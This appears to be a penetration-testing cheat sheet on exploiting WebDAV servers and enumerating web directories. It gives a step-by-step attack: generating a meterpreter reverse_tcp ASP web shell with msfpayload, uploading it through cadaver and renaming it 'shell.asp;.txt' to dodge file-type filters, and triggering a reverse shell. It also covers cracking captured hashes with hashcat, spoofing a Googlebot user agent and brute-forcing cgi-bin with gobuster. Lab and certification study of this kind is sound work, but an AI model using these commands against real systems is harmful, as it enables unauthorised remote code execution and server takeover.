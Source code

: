 

# [+] WebDAV

https://medium.com/@d0nut/week-8-exploitation-36c761572c83

wampp:xampp default credentials
http-iis-webdav-vuln.nse script
[manual] cadaver 192.168.100.138

**test what file extensions are allowed to be uploaded**
[manual] davtest -url http://foobar:80



### Hashcat MD5 Apache webdav file  

`hashcat -m 1600 -a 0 hash.txt rockyou.txt`

**Upload shell to Vulnerable WebDAV directory, To attempt to bypass file type restriction upload:**
To see what options are allowed you can use use auxiliary/scanner/http/options If PUT method is allowed you probably can upload web .asp shell. In my case .asp file upload was forbidden and only .txt and .html were allowed. In such situation we should upload file.txt and then to copy it as ***file.asp;.txt***

`msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.20 LPORT=4444 R | msfencode -t asp -o shell.asp`

```bash
cadaver http://192.168.0.60/
put shell.asp shell.txt
copy shell.txt shell.asp;.txt
Start reverse handler - browse to http://192.168.0.60/shell.asp;.txt
```



## Other

Robots.txt
Visit all URLs from robots.txt.
curl -s http://192.168.56.102/robots.txt | grep Disallow | sed 's/Disallow: //'
curl -i ${IP}/robots.txt

**Ippsec**
10.10.10.10/~root
index.html or index.php or default.aspx

.htaccess

**Make browser appear as a search engine**
curl -A "'Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)')" 10.11.1.39/robots.txt



## Targeting cgi-directories
`gobuster dir -u http://10.11.1.71/cgi-bin/ -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -e -l`
